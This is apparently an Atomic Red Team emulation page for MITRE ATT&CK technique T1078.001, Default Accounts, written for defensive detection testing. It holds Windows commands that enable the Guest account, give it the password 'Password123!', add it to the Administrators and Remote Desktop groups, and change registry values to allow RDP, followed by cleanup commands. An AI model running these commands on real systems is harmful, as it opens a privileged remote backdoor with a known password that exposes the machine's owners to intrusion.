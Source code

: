 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems or default factory/provider set accounts on other types of systems, software, or devices.(Citation: Microsoft Local Accounts Feb 2019)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-priviliges)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group, and desktop will allow multiple RDP connections

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user guest /active:yes
net user guest Password123!
net localgroup administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user guest /active:no >nul 2>&1
net localgroup administrators guest /delete >nul 2>&1
net localgroup "Remote Desktop Users" guest /delete >nul 2>&1
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1
```





<br/>
